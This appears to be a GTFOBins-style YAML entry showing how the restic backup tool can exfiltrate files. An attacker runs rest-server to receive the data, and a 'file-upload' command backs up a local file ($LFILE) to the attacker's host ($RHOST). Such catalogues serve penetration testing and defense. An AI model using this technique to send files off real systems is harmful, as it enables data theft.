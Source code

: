 ```yaml
---
description: |
  The attacker must setup a server to receive the backups, in the following example [rest-server](https://github.com/restic/rest-server/) is used but there are other options. To start a new instance and create a new repository:

  ```console
  NAME=backup_name
  ./rest-server --listen ":$RPORT"
  restic init -r "rest:http://localhost:$RPORT/$NAME"
  ```

  To extract the data from the restic repository in the current directory on the attacker side:

  ```console
  restic restore -r "/tmp/restic/$NAME" latest --target .
  ```

  Upload data to the attacker server with the following commands.
functions:
  file-upload:
    - code: |
        NAME=backup_name
        restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
---
```

